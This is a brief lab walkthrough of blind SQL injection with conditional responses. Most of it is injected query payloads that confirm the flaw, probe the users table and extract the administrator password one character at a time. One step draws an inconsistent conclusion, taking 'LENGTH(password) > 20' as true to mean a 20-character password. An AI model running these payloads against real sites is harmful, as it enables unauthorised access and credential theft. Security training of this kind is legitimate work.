

**Lab: Blind SQL injection with conditional responses**
*- Goal:*
1. Exploit vulnerabilities to find out the password
2. Log in as `administrator`

*- Analysis:*

1. Confirm that the parameter is vulnerable to blind SQLi:

>select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM'

-> If this tracking id exists -> query returns value -> Welcome back message
-> If the tracking id doesn't exist -> query returns nothing -> no Welcome back message

>select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and 1=1--'

-> TRUE -> Welcome back

>select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and 1=0--'

-> FALSE -> no Welcome back
2. Confirm that we have a user table:
> select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and (select 'x' from users LIMIT 1 )='x'--'

-> Welcome back -> users table exist in the database

3. Confirm that we have a user `Administrator` existing in users table:
> select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and (select username from users where username='administrator' )='administrator'--'

-> Welcome back -> It existed 
4. Enumerate the password of '`Administrator`:
> select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and (select username from users where username='administrator' and LENGTH(password) > 20)='administrator'--'

-> Welcome back -> True
-> Password = 20 characters

> select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and (select substring(password,1,1) from users where username='administrator')='a'--'

*`LAB SOLVED`*
